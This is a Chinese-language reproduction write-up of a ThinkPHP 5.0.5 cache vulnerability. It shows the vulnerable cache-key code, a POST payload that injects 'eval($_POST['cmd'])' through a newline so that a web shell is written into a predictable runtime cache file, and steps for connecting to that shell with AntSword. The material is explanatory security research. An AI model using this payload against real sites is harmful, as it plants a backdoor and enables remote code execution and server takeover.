 Thinkphp 5.0.5 缓存漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

Thinkphp 5.0.5

三、复现过程
------------

### 漏洞分析

-   漏洞代码与3.2.3差不多，不一样的在缓存目录

```{=html}
<!-- -->
```
-   protected function getCacheKey($name)
            {
                $name = md5($name);
                if ($this->options['cache_subdir']) {
                    // 使用子目录
                    $name = substr($name, 0, 2) . DS . substr($name, 2);
                }
                if ($this->options['prefix']) {
                    $name = $this->options['prefix'] . DS . $name;
                }
                $filename = $this->options['path'] . $name . '.php';
                $dir      = dirname($filename);
                if (!is_dir($dir)) {
                    mkdir($dir, 0755, true);
                }
                return $filename;
            }

```{=html}
<!-- -->
```
-   在index控制器写如下代码：

![](resource/Thinkphp5.0.5缓存漏洞/media/rId25.png)

-   之后访问
    `http://www.0-sec.org/public/index.php/Home/index`POST数据：`con=%0aeval($_POST['cmd']);%0d//`
-   最终在
    `runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php`文件生成shell：

![](resource/Thinkphp5.0.5缓存漏洞/media/rId26.png)

之后访问蚁剑
`http://www.0-sec.org/runtime/cache/b0/68931cc450442b63f5b3d276ea4297.php`

![](resource/Thinkphp5.0.5缓存漏洞/media/rId27.png)

### 小结

### Thinkphp5.0.5

1.  漏洞文件位置(一般审计得出)

-   `http://www.0-sec.org/public/index.php/Home/Index/index`

    POST数据 :`con=%0d%0aeval($_POST['cmd']);%0d%0a//`

2.  缓存文件位置b0文件夹是md5(cache-name)前2位。

-   `http://www.0-sec.org/runtime/cache/b0/b068931cc450442b63f5b3d276ea4297.php`

3.  蚁剑连接

参考链接
--------

> [https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/](https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10缓存漏洞/)
